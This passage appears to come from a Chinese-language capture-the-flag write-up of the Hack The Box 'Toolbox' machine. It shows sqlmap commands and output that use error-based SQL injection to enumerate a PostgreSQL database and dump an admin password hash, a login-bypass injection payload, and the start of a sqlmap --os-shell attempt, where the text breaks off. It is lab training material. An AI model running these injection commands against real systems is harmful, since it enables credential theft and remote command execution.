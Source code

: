 ```

使用基于错误的注入技术

拿到数据库名：
```
sqlmap -r data --batch --dbms=PostgreSQL --force-ssl --technique E --no-cast --threads 4 --dbs

available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public

```

表：
```
sqlmap -r data --batch --dbms=PostgreSQL --force-ssl --technique E --no-cast --threads 4 -D public --tables
Database: public
[1 table]
+-------+
| users |
+-------+
```

数据
```
sqlmap -r data --batch --dbms=PostgreSQL --force-ssl --technique E --no-cast --threads 4 -D public -T users --dump

Table: users
[1 entry]
+----------------------------------+----------+
| password                         | username |
+----------------------------------+----------+
| 4a100a85cb5ca3616dcf137918550815 | admin    |
+----------------------------------+----------+
```

但是这个md5数据无法破解。
但是我们既然已经知道了username存在sql注入，那么可以用上面sqlmap跑出来的payload登录页面

> admin：admin#';SELECT PG_SLEEP(5)--
> passwd：随便

登录后台以后有两个留言信息:

> Server is currently stable
>The server is running normally and no issues have recently been detected. If you notice an outage, please report it to the administrator.


> Send credentials to Tony Update Printer Drivers


# foothold .sql注入

这里如果不指定注入方法，会报：stacked queries SQL injection is not supported(不支持堆叠查询)
```
┌──(root㉿kali)-[~/htb/Toolbox]
└─# sqlmap -r data  --risk=3 --level=3 --batch --force-ssl --os-shell --technique T
        ___
       __H__                                                                                                                                                                                                                                